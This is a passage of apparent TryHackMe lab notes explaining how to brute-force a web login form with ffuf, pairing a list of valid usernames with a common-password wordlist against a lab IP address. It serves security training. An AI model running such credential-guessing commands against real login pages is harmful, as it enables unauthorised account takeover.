Previously we used the **FUZZ** keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword.
```python
user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.66.70/customers/login -fc 200
```
	- `W1` for our list of valid usernames.
	- `W2` for the list of passwords we will try.
	- multiple wordlists are again specified with the `-w` argument
	- `-fc` argument to check for an HTTP status code other than 200.
